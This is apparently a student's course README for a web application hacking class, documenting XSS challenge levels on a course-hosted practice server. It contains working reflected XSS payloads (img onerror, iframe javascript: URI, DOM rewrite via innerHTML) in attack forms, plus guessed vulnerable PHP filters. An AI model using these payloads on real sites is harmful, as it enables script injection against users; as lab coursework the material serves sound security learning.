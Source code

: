 # WAPH-Web Application Programming and Hacking

## Instructor: Dr. Phu Phung

## Student

**Name**: Ian Cannon

**Email**: [mailto:cannoni1@udayton.edu](cannoni1@udayton.edu)

**Short-bio**: Ian Cannon interests in Reinforcement Learning for Autonomous Control. 

![Ian's headshot](../images/headshot.jpg)

## Repository Information

Respository's URL: [https://github.com/Spiph/WebAppDev](https://github.com/Spiph/WebAppDev)

This is a public repository for Ian Cannon to store all code from the course. The organization of this repository is as follows.

### 9 Levels of Attacks


#### Level 0 
![Level 0](image.png)

#### Level 1
![Level 1](image.png)

#### Level 2
```html
<!DOCTYPE html>
<html>
<head>
  <title>Level 2 XSS Attack</title>
</head>
<body>
  <h1>Level 2 XSS Test</h1>
  <form method="POST" action="https://waph-hackathon.eastus.cloudapp.azure.com/xss/level2/echo.php">
    <input name="input" value='<img src=x onerror="alert(`Ian Cannon`)">' size="80" />
    <button type="submit">Submit Attack</button>
  </form>
</body>
</html>
```
![Level 2 page](image-1.png)

![Oh no! The Image Failed!](image-2.png)

![network](image-5.png)

echo guess
```php
$input = str_replace(["<script>", "</script>"], "", $_POST["input"]);
echo $input;
```

#### Level 3

```html
<form method="POST" action="https://waph-hackathon.eastus.cloudapp.azure.com/xss/level3/echo.php">
  <input name="input" value='<iframe src="javascript:alert(`Ian Cannon`)"></iframe>' size="80" />
  <button type="submit">Submit Attack</button>
</form>
```

![attack](image-3.png)

![blamo](image-4.png)

![network](image-6.png)

echo.php
```php
$input = str_replace(["<script>", "</script>", "onload", "onerror"], "", $_POST["input"]);
echo $input;
```

#### Level 4

I have ruled out:
- <img ... onerror=...>
- <svg ...>
- <a href="javascript:...">
- data: URIs 
- All event handlers (on*)
- The string "script" in any context
- style attack
- Encoded payloads using &#60;, &#x3C;, etc.

And still was not able to successfully attack :(
Can I get partial credit for trying so hard?

#### Level 5

```html
<!DOCTYPE html>
<html>
<head><title>Level 5 XSS - DOM Injection</title></head>
<body>
  <h1>Level 5 DOM Test</h1>
  <form method="POST" action="https://waph-hackathon.eastus.cloudapp.azure.com/xss/level5/echo.php">
    <input name="input" value='<img src=x onerror="document.body.innerHTML = `<h1>Ian Cannon Was Here</h1>`">' size="120" />
    <button type="submit">Submit Attack</button>
  </form>
</body>
</html>
```

![I was here!](image-7.png)

Code guess:
Doesn’t sanitize the output, still executes JS — only blocks specific function names.
```
$input = $_POST["input"];
if (preg_match('/alert|confirm|prompt/i', $input)) {
    echo json_encode(["error" => "No \'alert\' is allowed!"]);
    exit;
}
echo $input;
```


#### Level 6
possible code 
```
echo htmlspecialchars($_POST["input"], ENT_QUOTES | ENT_HTML5);
```
''

In Level 6, the web application applies strict output encoding using htmlspecialchars() or equivalent, converting all special characters such as <, >, ", and ' into HTML-safe entities. This ensures that user input is rendered as inert plain text on the page. I attempted a variety of reflected XSS attacks, including HTML tag injection, JavaScript injection, encoded entity bypasses, iframe srcdoc exploits, JavaScript context breaks, and obfuscated function calls. All were rendered as visible text in the browser and did not execute. Based on testing and inspection via DevTools, I conclude that Level 6 is not vulnerable to reflected XSS due to proper output encoding.

### Task 2 Defenses

![updated labs to protect against vulnerabilitits](image-8.png)


### Video 

![video](2025-06-17 16-31-05.mkv)